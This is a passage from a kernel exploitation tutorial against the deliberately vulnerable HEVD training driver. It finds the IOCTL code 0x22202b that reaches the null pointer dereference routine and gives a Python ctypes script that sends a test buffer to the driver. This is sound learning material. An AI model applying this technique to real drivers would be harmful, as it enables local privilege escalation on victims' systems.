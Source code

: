 Ok, we see the eventual call to `TriggerNullPointerDereference` now, let's go back to `IrpDeviceIoCtlHandler` and determine the IOCTL required to reach this code path. Immediately above our `NullPointerDereferenceIoctlHandler` box, we see the logic detailing the IOCTL parsing.

![](/assets/images/AWE/ioctlparse.PNG)

So we can see that we'll `jz` to our desired code path with an IOCTL of `0x22202b`. Let' script this up and test it. We'll put a breakpoint in with `bp HEVD!TriggerNullPointerDereference` and see if we hit it. Here's our script right now:
```python
import ctypes, sys, struct
from ctypes import *
from ctypes.wintypes import *
from subprocess import *
import sys

kernel32 = windll.kernel32

def interact():
    
    hevd = kernel32.CreateFileA(
        "\\\\.\\HackSysExtremeVulnerableDriver", 
        0xC0000000, 
        0, 
        None, 
        0x3, 
        0, 
        None)
    
    if (not hevd) or (hevd == -1):
        print("[!] Failed to retrieve handle to device-driver with error-code: " + str(GetLastError()))
        sys.exit(1)
    else:
        print("[*] Successfully retrieved handle to device-driver: " + str(hevd))

    buf = "A" * 100
        
    result = kernel32.DeviceIoControl(
        hevd,
        0x22202b,
        buf,
        len(buf),
        None,
        0,
        byref(c_ulong()),
        None
    )

    if result != 0:
        print("[*] Payload sent.")
    else:
        print("[!] Payload failed. Last error: " + str(GetLastError()))

interact()
```
